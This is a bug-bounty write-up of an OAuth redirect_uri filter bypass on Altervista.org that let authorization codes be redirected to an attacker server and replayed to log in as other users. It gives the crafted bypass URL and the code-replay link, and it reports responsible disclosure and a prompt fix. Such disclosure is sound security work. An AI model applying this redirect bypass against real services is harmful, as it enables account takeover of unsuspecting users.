 # How I hacked Altervista.org
By @jacopoMii (https://www.facebook.com/jacopotediosi)<br>
How I hacked Altervista.org, and I found a vulnerability that allowed to steal access tokens

## Foreword
This was the first bounty I attended, and this is my first writeup in English.<br>
I'm just an Italian student with a strong wish to learn new IT-Security stuffs and with a strong belief about ethical hacking.<br>
If someone finds errors or wants to give me suggestions, please open here an issue or a pull request.

## About Altervista.org
From [Wikipedia](https://it.wikipedia.org/wiki/AlterVista):
>  AlterVista is an Italian web platform where you can open a website for free.
>  On AlterVista you can create a website with PHP, MySQL database and FTP access.
>  Use of the space is free but some additional services are subject to charges.
>  Altervista was bought by Mondadori spa in 2016 and today it hosts about 3 million sites.

Altervista allows you to manage your website via a comfortable web panel after having logged in.

Altervista also has a [forum](http://forum.it.altervista.org/) where people can ask for programming questions and participate in community life:
![The Altervista forum](https://raw.githubusercontent.com/jacopotediosi/Writeups/master/Real/Altervista.org/img1.png)

## How the login system works
I wandered on Altervista for a while, until I noticed that if you had already logged in to the administration panel of your site, to log in on the forum you just have to click on the "Login" button, without having to retype your credentials; so I started studying how that button works:

It was a simple link for `https://aa.altervista.org/?client_id=altervista&response_type=code&redirect_uri=http://forum.it.altervista.org/`

If you have already authenticated, that page does nothing more than generate an "authorization_code" and then redirect you to `http://forum.it.altervista.org/login.php?do=login-aHR0cDovL2ZvcnVtLml0LmFsdGVydmlzdGEub3JnL2ZvcnVtLnBocA%3D%3D&authorization_code=XXXXXXXXXXXXXXXXXXX`<br>
The strange parameter "do" contains the word "login" and then the link "http://forum.it.altervista.org/forum.php" coded in base64 (I know, that's a strange choice).<br>
Parameter "authorization_code" contains the "authorization_code" generated before.<br>
If you haven't authenticated yet, it first asks you for your username and password and then redirects you in the same way.

## How I came to discover the vulnerability
The vulnerability is that if we can change the value of the "redirect_uri" get-parameter, we can create a special link that if clicked redirects the user to our servers instead of the altervista server, allowing us to steal the authorization_code that is added at the end of the url (and then login with profile of other people).

Unfortunately there seemed to be a filter on the parameter, which accepted only subdomains of it.altervista.org.

At this point I remembered a video of [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w):  "[HOW FRCKN' HARD IS IT TO UNDERSTAND A URL?!](https://www.youtube.com/watch?v=0uejy9aCNbI)", where he shows that often programmers make mistakes when they have to parse urls, especially when the input is not compliant with specifications.

Then I started fuzzing, until I found a way to bypass the filter:<br>
`https://aa.altervista.org/?client_id=altervista&response_type=code&redirect_uri=http://google.it/http://it.altervista.org/`

It redirects you as follow: ![We can steal access token](https://raw.githubusercontent.com/jacopotediosi/Writeups/master/Real/Altervista.org/img2.png)

So if instead of google.it we put our malicious server address here, we can steal the access token.<br>
And then login with it: `http://forum.it.altervista.org/login.php?do=login-aHR0cDovL2ZvcnVtLml0LmFsdGVydmlzdGEub3JnL2ZvcnVtLnBocA%3D%3D&authorization_code=XXXXXXXXXXXXXXXXXXX`

![Logged in with other person profile](https://raw.githubusercontent.com/jacopotediosi/Writeups/master/Real/Altervista.org/img3.png)

## Epilogue
I immediately reported my discovery to Altervista through [the appropriate form](https://it.altervista.org/feedback.php?who=feedback), and they fixed it almost immediately.<br>
As a reward, they added my name to the [thanks list](https://it.altervista.org/ringraziamenti.php): ![Thanks list screenshot](https://raw.githubusercontent.com/jacopotediosi/Writeups/master/Real/Altervista.org/img4.png)

## Timeline
- 02 January 2018: Started looking for vulnerabilities on Altervista.org
- 03 January 2018: Discovered vulnerability and sent a PoC to Security Team
- 04 January 2018: Patch went online and my name was added to thanks list
